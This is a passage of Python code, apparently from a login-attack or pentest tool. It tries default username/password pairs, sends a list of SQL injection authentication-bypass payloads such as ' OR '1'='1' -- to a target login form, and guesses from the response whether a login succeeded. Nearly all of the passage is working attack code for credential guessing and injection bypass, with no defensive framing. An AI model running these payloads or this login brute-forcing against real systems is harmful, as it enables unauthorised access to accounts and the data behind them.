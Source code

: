```python
        for username, password in default_creds:
            if self.attempt_login(username, password):
                self.successful_logins.append((username, password))
                print(f"  [+] Success: {username}:{password}")
    
    def test_sql_injection_bypass(self):
        """Test SQL injection authentication bypass"""
        sql_payloads = [
            "' OR '1'='1",
            "' OR '1'='1' --",
            "' OR 1=1 --",
            "admin' --",
            "admin' /*",
            "' OR 'a'='a",
            "' OR 1=1#"
        ]
        
        print("[*] Testing SQL injection bypass...")
        
        for payload in sql_payloads:
            if self.attempt_login(payload, "password"):
                print(f"  [+] SQL injection bypass successful: {payload}")
                return True
        
        return False
    
    def attempt_login(self, username, password):
        """Attempt login with given credentials"""
        data = {
            'username': username,
            'password': password
        }
        
        try:
            response = self.session.post(
                self.target_url,
                data=data,
                timeout=10,
                allow_redirects=False
            )
            
            # Check for successful login indicators
            success_indicators = [
                response.status_code in [200, 302],
                'dashboard' in response.text.lower(),
                'welcome' in response.text.lower(),
                'logout' in response.text.lower(),
                'profile' in response.text.lower()
            ]
            
            failure_indicators = [
                'invalid' in response.text.lower(),
                'incorrect' in response.text.lower(),
                'failed' in response.text.lower(),
                'error' in response.text.lower()
            ]
            
            return any(success_indicators) and not any(failure_indicators)
            
        except Exception as e:
            return False
```
